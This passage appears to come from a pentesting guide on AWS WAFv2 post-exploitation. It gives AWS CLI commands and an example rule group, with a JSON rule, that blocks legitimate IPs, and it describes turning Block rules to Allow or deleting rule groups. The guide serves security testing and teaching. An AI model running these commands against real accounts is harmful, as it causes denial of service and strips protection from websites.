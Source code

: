```bash

```

### Post Exploitation / Bypass

{% hint style="success" %}
From an attackers perspective, this service can help the attacker to identify WAF protections and network exposures that could help him to compromise other webs.

However, an attacker could also be interested in disrupting this service so the webs aren't protected by the WAF.
{% endhint %}

In many of the Delete and Update operations it would be necessary to provide the **lock token**. This token is used for concurrency control over the resources, ensuring that changes are not accidentally overwritten by multiple users or processes attempting to update the same resource simultaneously. In order to obtain this token you could perform the correspondent **list** or **get** operations over the specific resource.

#### **`wafv2:CreateRuleGroup`, `wafv2:UpdateRuleGroup`, `wafv2:DeleteRuleGroup`**

An attacker would be able to compromise the security of the affected resource by:

* Creating rule groups that could, for instance, block legitimate traffic from legitimate IP addresses, causing a denial of service.
* Updating rule groups, being able to modify its actions for example from **Block** to **Allow**.
* Deleting rule groups that provide critical security measures.

```bash
# Create Rule Group
aws wafv2 create-rule-group --name <value> --capacity <value> --visibility-config <value> \
--scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1> [--rules <value>] [--description <value>]
# Update Rule Group
aws wafv2 update-rule-group --name <value> --id <value> --visibility-config <value> --lock-token <value>\
 --scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1> [--rules <value>] [--description <value>]
# Delete Rule Group
aws wafv2 delete-rule-group --name <value> --id <value> --lock-token <value> --scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1>
```

The following examples shows a rule group that would block legitimate traffic from specific IP addresses:

```bash
aws wafv2 create-rule-group --name BlockLegitimateIPsRuleGroup --capacity 1 --visibility-config SampledRequestsEnabled=false,CloudWatchMetricsEnabled=false,MetricName=BlockLegitimateIPsRuleGroup --scope CLOUDFRONT --region us-east-1 --rules file://rule.json
```

The **rule.json** file would look like:

```json
[
    {
        "Name":"BlockLegitimateIPsRule",
        "Priority":0,
        "Statement": {
                "IPSetReferenceStatement": {
                    "ARN": "arn:aws:wafv2:us-east-1:123456789012:global/ipset/legitIPv4/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
                }
            },
        "Action":{
            "Block":{}
```
